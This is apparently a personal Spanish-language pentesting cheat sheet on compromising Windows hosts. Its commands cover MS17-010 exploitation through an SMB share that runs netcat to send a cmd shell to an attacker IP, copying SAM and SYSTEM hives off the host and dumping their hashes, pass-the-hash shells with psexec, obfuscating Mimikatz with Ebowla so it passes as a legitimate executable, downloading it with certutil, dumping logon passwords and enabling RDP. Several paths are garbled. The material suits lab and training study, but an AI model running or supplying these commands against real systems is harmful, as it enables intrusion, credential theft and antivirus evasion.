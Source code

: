 # Escaneo y Persistencia con CrackMapExec y Mimikatz

## Escaneo con CrackMapExec

```bash
crackmapexec smb ip.victima
```

### Explotación de MS17

Para explotar manualmente MS17, hay que crear un recurso con `impacket-smb` que contenga `netcat.exe`. 

Ejemplo:

```bash
\ip.atacante\smbfolder
etcat.exe -e cmd 10.10.14.29 4444
```

Usando el exploit de zzz: viene con un checker que permite ver si es vulnerable a MS17 y listar los recursos. Si no muestra nada, usa `guest`.

Comando para compartir el recurso:

```bash
impacket-smb smbfolder $(pwd) --smb2support
```

Otra forma:

```bash
impacket-smb smbfolder=/tmp/recurso/que/quiero/compartir
```

**Poner en escucha con netcat en el puerto 4444**:

```bash
nc -lvnp 4444
```

---

## Persistencia

### 1. SAM

Crear una carpeta en `/tmp` y luego ejecutar:

```bash
reg save HKLM\system system.backup
reg save HKLM\sam sam.backup
```

Compartir archivos por red desde Windows después de crear copias de SAM y SYSTEM usando el recurso compartido:

```bash
impacket-smb smbfolder $(pwd) --smb2support
```

Copiar los archivos:

```bash
copy sam.backup \IP
ecursolinux\sam
copy system.backup \IP
ecursoLinux\system
```

Tener los archivos `sam` y `system` en Kali y ejecutar:

```bash
impacket-secretsdump -sam ruta/sam -system ruta/system LOCAL
```

Esto nos proporcionará los hashes para hacer **pass the hash** o crackearlos.

Ejemplo de uso con CrackMapExec para obtener secretos:

```bash
crackmapexec smb Ip-victima -u 'Administrator' -H 'hash' --lsa
```

### Para tener una shell:

```bash
impacket-psexec WORKGROUP/Administrator@Ip-victima -hashes :'hash'
```

---

### 2. Mimikatz

Ofuscar `Mimikatz` usando **Ebowla**.

Primero, clonar el repositorio:

```bash
git clone https://github.com/Genetic-Malware/Ebowla
```

Configuración de Ebowla:

```bash
output_type = GO
payload_type = EXE
```

Cambiar variables de entorno:

```bash
echo %computername%
echo %username%
echo %Number_of_processors%
```

Después de configurar el entorno de la víctima, ejecutar:

```bash
python2 ebowla.py mimikatz.exe generic_config
```

Esto crea el archivo `go_symetric_mimikatz.exe.go`. Para compilarlo:

```bash
./build_x64_go.sh go_symetric_mimikatz.exe.go archivo_legitimo.exe
```

Para pasar archivos de Linux a Windows:

```bash
python3 -m http.server 8080
```

En Windows, descargar el archivo:

```bash
certutils.exe -f -urlcache -split http://ip.linux/archivo_legitimo.exe
```

Luego, ejecutar el `Mimikatz` ofuscado y dumpear credenciales:

```bash
privilege::debug
sekurlsa::logonPasswords
```

---

### 3. RDP (Puerto 3389)

Para habilitar RDP, se necesita la contraseña de administrador. Ejecutar:

```bash
crackmapexec smb Ip-victima -u 'Administrator' -p 'password' -M rdp -o action=enable
```

RDP ya estará activo.
